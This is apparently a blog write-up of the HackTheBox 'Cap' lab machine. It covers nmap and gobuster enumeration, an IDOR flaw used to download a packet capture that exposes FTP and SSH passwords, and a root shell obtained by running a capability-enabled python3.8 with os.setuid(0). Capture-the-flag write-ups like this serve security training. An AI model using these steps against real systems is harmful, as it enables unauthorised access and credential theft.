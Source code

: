 ```yaml
---
title: Cap
published: 2025-08-27
description: ' Cap is an easy difficulty Linux machine running an HTTP server that performs administrative functions including performing network captures.'
image: './Cap-Images/logo.jpg'
tags: ['Linux','Web','Exploit','Privsec']
category: 'HackTheBox'
draft: false 
---
```


## Enumeration
> - Lets use nmap :
```shell
# Nmap 7.97 scan initiated Wed Aug 27 09:32:30 2025 as: nmap -sCV -A -T4 -o nmap.txt 10.10.10.245
Nmap scan report for 10.10.10.245
Host is up (0.12s latency).
Not shown: 997 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 fa:80:a9:b2:ca:3b:88:69:a4:28:9e:39:0d:27:d5:75 (RSA)
|   256 96:d8:f8:e3:e8:f7:71:36:c5:49:d5:9d:b6:a4:c9:0c (ECDSA)
|_  256 3f:d0:ff:91:eb:3b:f6:e1:9f:2e:8d:de:b3:de:b2:18 (ED25519)
80/tcp open  http    Gunicorn
|_http-server-header: gunicorn
|_http-title: Security Dashboard
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel
```
> - Now we need to use brute forcing Directory With `Gobuster`:
```shell
❯❯ gobuster dir -u 10.10.10.245 -w /usr/share/Wordlists/dirb/common.txt 
===============================================================
Gobuster v3.7
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.10.245
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/Wordlists/dirb/common.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.7
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/data                 (Status: 302) [Size: 208] [--> http://10.10.10.245/]
/ip                   (Status: 200) [Size: 17462]
/netstat              (Status: 200) [Size: 33068]
```

## Exploitation

> - i found folder `data` but i have prblm , i searching for PCAP file that contains sensative data .
> - i try change id data to `0` , This Vuln is `IDOR` .

![data](./Cap-Images/data.jpg)

> - After download File PCAP , i can open this file in `Wireshark` Tool :
![PCAP](./Cap-Images/pcap.jpg)

- Great !! i found a password of `FTP` & `SSH`

## Privilege Escalation

> - Now im runing Tool `linPEAS` , i found a faibless in `/usr/bin/python3.8`
> - So, i put this Malicios Code : `/usr/bin/./python3.8 -c 'import os; os.setuid(0); os.system("/bin/sh")'`
```shell
nathan@cap:~$ /usr/bin/./python3.8 -c 'import os; os.setuid(0); os.system("/bin/sh")'
# id
uid=0(root) gid=1001(nathan) groups=1001(nathan)
# cd /root
# ls -la
total 36
drwx------  6 root root 4096 Aug 26 22:24 .
drwxr-xr-x 20 root root 4096 Jun  1  2021 ..
lrwxrwxrwx  1 root root    9 May 15  2021 .bash_history -> /dev/null
-rw-r--r--  1 root root 3106 Dec  5  2019 .bashrc
drwxr-xr-x  3 root root 4096 May 23  2021 .cache
drwxr-xr-x  3 root root 4096 May 23  2021 .local
-rw-r--r--  1 root root  161 Dec  5  2019 .profile
drwx------  2 root root 4096 May 23  2021 .ssh
lrwxrwxrwx  1 root root    9 May 27  2021 .viminfo -> /dev/null
-r--------  1 root root   33 Aug 26 22:24 root.txt
drwxr-xr-x  3 root root 4096 May 23  2021 snap
```